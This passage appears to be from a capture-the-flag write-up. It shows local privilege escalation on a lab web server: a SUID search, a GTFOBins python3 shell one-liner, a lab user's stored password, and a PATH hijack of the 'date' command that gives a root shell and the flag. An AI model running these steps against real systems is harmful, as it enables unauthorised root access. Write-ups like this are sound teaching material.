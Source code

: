 
We get a reverse shell to the web server

Digging around, we get a lot of permission denied errors when accessing Oscar’s files . Let’s try some privilege escalation
`$ find / -perm -4000 -exec ls -l {} \; 2&gt;/dev/null  
-rwsr-xr-x 1 root root 44784 May 28 08:37 /usr/bin/newgrp  
-rwsr-xr-x 1 root root 68208 May 28 08:37 /usr/bin/passwd  
-rwsr-xr-x 1 root root 67816 Apr  2 17:29 /usr/bin/su  
-rwsr-xr-x 1 root root 55528 Apr  2 17:29 /usr/bin/mount  
-rwsr-xr-x 1 root root 85064 May 28 08:37 /usr/bin/chfn  
-rwsr-xr-x 1 root root 39144 Apr  2 17:29 /usr/bin/umount  
-rwsr-xr-x 1 root root 53040 May 28 08:37 /usr/bin/chsh  
-rwsr-xr-x 1 root root 88464 May 28 08:37 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 166056 Feb  3  2020 /usr/bin/sudo  
-rwsr-xr-x 1 oscar oscar 5457568 Aug 26 14:19 /usr/bin/python3  
-rwsr-xr-- 1 root messagebus 51344 Dec  7  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 473576 Feb 26  2020 /usr/lib/openssh/ssh-keysign`

/usr/bin/python3 has some opportunity for horizontal privilege escalation. GTFobins comes in handy.
`$ python3 -c &#39;import os; os.execl(&#34;/bin/sh&#34;, &#34;sh&#34;, &#34;-p&#34;)&#39;``id  
uid=33(www-data) gid=33(www-data) euid=1000(oscar) groups=33(www-data)`

We can now access files whose permissions are set to Oscar only.
`cd oscar  
ls  
my_password  
scripts  
cat my_password  
H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o`

**Path variable manipulation**

A script called current-date displays the current date. Since in linux, date command is used to do that, I figured the script calls the date command and probably does this using its full path. We can edit our own date variable and pass in /bin/bash so it gets executed when we call the current-date script and drop into a root shell
`cd /tmp  
ls  
echo &#34;/bin/bash&#34; &gt; date  
chmod 777 date  
export PATH=/tmp:$PATH  
cd /home/oscar  
ls -al  
cd scripts  
ls  
current-date  
./current-date  
id  
uid=0(root) gid=0(root) groups=0(root),33(www-data)  
cat 2_flag.txt  
 __          __  _ _       _                    
 \ \        / / | | |     | |                   
  \ \  /\  / /__| | |   __| | ___  _ __   ___   
   \ \/  \/ / _ \ | |  / _` |/ _ \| &#39;_ \ / _ \  
    \  /\  /  __/ | | | (_| | (_) | | | |  __/  
     \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___|  
